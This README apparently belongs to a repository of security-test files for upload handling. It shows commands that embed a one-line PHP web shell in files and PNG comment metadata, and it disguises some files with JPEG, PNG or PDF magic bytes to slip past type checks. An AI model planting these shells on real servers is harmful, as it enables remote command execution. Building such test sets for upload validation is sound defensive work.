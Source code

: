 # security-test-files
Different files made help with security testing applications.

### Files

#### php-shell.php
- php file with a php shell in it
- `echo '<?php system($_REQUEST['cmd']); ?>' >> php-shell.php`

#### php-shell-added-to-end-png-magic-bytes.php
- added php shell payload to the end of png file
- `echo '<?php system($_REQUEST['cmd']); ?>' >> regular-png-file.png && mv regular-png-file.png php-shell-added-to-end-png-magic-bytes.php`

#### php-shell-directly-in-image.png
- php shell added directly to image
- `echo '<?php system($_REQUEST['cmd']); ?>' >> php-shell-directly-in-image.png`

#### php-shell-with-jpeg-magic-bytes.php
- php shell file with added jpeg magic bytes
- ffd8 ffdb

#### php-shell-with-pdf-magic-bytes.php
- php shell file with added pdf magic bytes
- 2550 4446 2d

#### php-shell-with-php-payload-in-png-comment-metadata-png-magic-bytes.php
- php shell payload inserted into png comment and changed the file to `.php`
- `exiftool -comment='<?php system($_REQUEST['cmd']); ?>' png-file-with-php-payload-in-comment-metadata.png`
- renamed png-file-with-php-payload-in-comment-metadata.png to php-shell-with-php-payload-in-png-comment-metadata-png-magic-bytes.php

#### png-file-with-php-payload-in-comment-metadata.png
- php payload added in the metadata comment section
- `exiftool -comment='<?php system($_REQUEST['cmd']); ?>' png-file-with-php-payload-in-comment-metadata.png`

#### regular-excel-document.xlsx
- nothing special, just an excel sheet with some text and `=1+1` calculation

#### regular-pdf-document.pdf
- nothing special, just a pdf file with some text

#### regular-png-file.png
- nothing special, just a png file

#### regular-text-document.txt
- nothing special, just a text document with some text

#### regular-word-document.docx
- nothing special, just a word document with some text
